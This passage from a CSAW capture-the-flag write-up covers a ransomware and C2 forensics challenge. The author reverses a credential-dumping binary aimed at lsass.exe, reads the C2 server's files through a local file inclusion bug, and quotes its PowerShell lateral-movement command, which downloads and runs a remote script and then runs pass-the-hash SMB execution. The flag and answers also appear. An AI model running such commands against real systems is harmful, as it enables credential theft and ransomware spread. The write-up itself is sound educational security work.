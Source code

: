 ```diff
+conti
 (4/5) What encryption algorithms are used by the ransomware? Please give the answer as a comma-separated array
+AES-CBC,RSA
 (5/5) Is it realistically possible to recover the files using only the source code? Please answer as either yes or no
+no
 Nice Job! Thanks for explaining the ransomware to us.
 Here's your flag --> csawctf{c0n71_r4n50mw4r3_1n_c#}
```

## Extreme Comfusion (by Jason)

> staring at stripped windows c++ is going to make me gouge my eyes out
> 

~ Jason

Given the communicator binary from before, our first question is to find the name of the process it's dumping memory for. Since stripped C++ is painful to look at, I just clicked into random functions until I found the main function at `140001850`. The main function loads some random data, then calls the function at `140001620` on it, which from squinting at I guessed to be a C++ string allocation function due to the call to `new`, and then calls the function at `140004d60`, which looks like a single-byte XOR function where the byte to XOR with is the third argument.

Dumping the data in main and xoring with 0x33, we get the string `C:\Windows\Temp\FXSTIFFDebugLogFileAdmin.txt`. I recognized the filename from the pcap so I kept this in mind for later. Main then calls the function at `140001270` which looks like another C++ stdlib function so I ignored it, then moved onto the function at `140004920` which has a lot more stuff. The function checks for the `SeDebugPrivilege` privilege, which would allow a program to debug other programs, so it seems like this function will do the dumping. Skimming the function, there's more calls to the single-byte XOR, so I dump the data to get the string `lsass.exe`, which is the answer to the first part.

The next part asks for the full path to the dumped file. This is just `C:\Windows\Temp\FXSTIFFDebugLogFileAdmin.txt` from before.

The next part asks for the first 32 characters of the base64 command being run from the server. At this point it's possible to reverse engineer the binary to figure out how the communication scheme works, but I was growing weary of stripped C++ so I decided to check out the website, and promptly found this:

![An image of Jason sending a link demonstrating LFI in the infected-c2.csaw.io site](https://hackmd.io/_uploads/BJI5WyrJp.png)

Yep. Their web server has LFI. After trying a bunch of files, I found `../Dockerfile` which led me to `../web.py` which had the full source of the web server. This reveals the command being run:
```python
LATERAL_MOVEMENT = "New-Module -Name LaTm0v -ScriptBlock ([Scriptblock]::Create((New-Object " \
                   "System.Net.WebClient).DownloadString(\"http://infected-c2.csaw.io/static?file=lat.ps1\"))); " \
                   "Invoke-SMBExec -Target \"{ip}\" -Domain \"{domain_name}\" -Username \"{username}\" -Hash \"{" \
                   "ntlm}\" -Command \"{ransomware}\""
```
Base64 encoding this and taking the first 32 characters we get the answer `TgBlAHcALQBNAG8AZAB1AGwAZQAgAC0A`.
